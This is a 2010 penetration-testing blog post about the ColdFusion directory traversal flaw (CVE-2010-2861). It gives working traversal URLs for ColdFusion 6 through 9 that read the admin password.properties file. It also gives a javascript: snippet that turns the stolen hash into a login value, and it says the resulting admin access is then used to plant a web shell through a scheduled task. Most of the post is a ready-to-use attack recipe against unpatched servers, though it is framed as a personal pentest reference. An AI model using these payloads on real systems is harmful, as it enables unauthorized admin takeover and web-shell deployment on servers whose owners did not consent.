 ```yaml
---
id: 59
title: Cold Fusion Directory Traversal
date: 2010-12-23T19:25:59+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=59
permalink: /?p=59
categories:
  - web app testing
tags:
  - coldfusion
  - directory traversal
  - pentesting
---
```

[<img class="alignright size-full wp-image-61" title="coldfusion" alt="" src="http://www.infointox.net/wp-content/uploads/2010/12/coldfusion.jpg" width="240" height="234" />](http://www.infointox.net/wp-content/uploads/2010/12/coldfusion.jpg)

So this attack has been published for a while now and I just never posted but I still have found it fruitful during pen tests. For that reason I wanted to collect all the information I have read and learned while performing this attack into one location for my reference.

The basic concept of this attack is a directory traversal to the password.properties which can than be used to login into the server. Once you have admin to Coldfusion you can deploy a cfm web shell through a scheduled task in Coldfusion. Game over of running as administrator. Adobe has released a patch for this attack but I have seen this work on versions 7, 8 and 9 that have not been patched.

**Step 1: Directory Traversal**

This is the step you will see if its vulnerable or not. Below I listed different strings to traverse. All depends on the version to which one will work. Below are ones I have found to work the best for me. Let me know if you know of any others.

Single server configuration ColdFusion

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="php" style="font-family:monospace;">http<span style="color: #339933;">:</span><span style="color: #666666; font-style: italic;">//site/CFIDE/administrator/logging/settings.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en</span></pre>
      </td>
    </tr>
  </table>
</div>

ColdFusion 7

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="php" style="font-family:monospace;">http<span style="color: #339933;">:</span><span style="color: #666666; font-style: italic;">//site/CFIDE/administrator/logging/settings.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en</span></pre>
      </td>
    </tr>
  </table>
</div>

ColdFusion 8

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="php" style="font-family:monospace;">http<span style="color: #339933;">:</span><span style="color: #666666; font-style: italic;">//site/CFIDE/administrator/logging/settings.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en</span></pre>
      </td>
    </tr>
  </table>
</div>

ColdFusion 6,7 AND 8

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="php" style="font-family:monospace;">http<span style="color: #339933;">:</span><span style="color: #666666; font-style: italic;">//site/CFIDE/administrator/logging/settings.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en</span></pre>
      </td>
    </tr>
  </table>
</div>

**Step 2: Javascript:hex\_hmac\_sha1**

Once you have the hash from the password.properties you can either drop those in rainbow tables or my following preferred method. Once you copied the hash go back to the login screen and paste the hash into the password field and copy the following javascript and execute.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="php" style="font-family:monospace;">javascript<span style="color: #339933;">:</span>hex_hmac_sha1<span style="color: #009900;">&#40;</span>document<span style="color: #339933;">.</span>loginform<span style="color: #339933;">.</span>salt<span style="color: #339933;">.</span>value<span style="color: #339933;">,</span>document<span style="color: #339933;">.</span>loginform<span style="color: #339933;">.</span>cfadminPassword<span style="color: #339933;">.</span>value<span style="color: #009900;">&#41;</span></pre>
      </td>
    </tr>
  </table>
</div>

This will return another value. The value returned will be used to pass to the login form. This all has to be down pretty fast. Seems to be 30 seconds or less before this value times out. Sometimes cookies will have to be cleared and you will have to rerun the javascript.

So with this value you just have to intercept the login with a proxy and replace the password parameter with this value. If all goes will you should be rewqreded with a nice admin screen. Now do would you like, I like web shells.

**References:**

<http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/>

 [http://www.procheckup.com/vulnerability_manager/vulnerabilities/pr10-07]( http://www.procheckup.com/vulnerability_manager/vulnerabilities/pr10-07)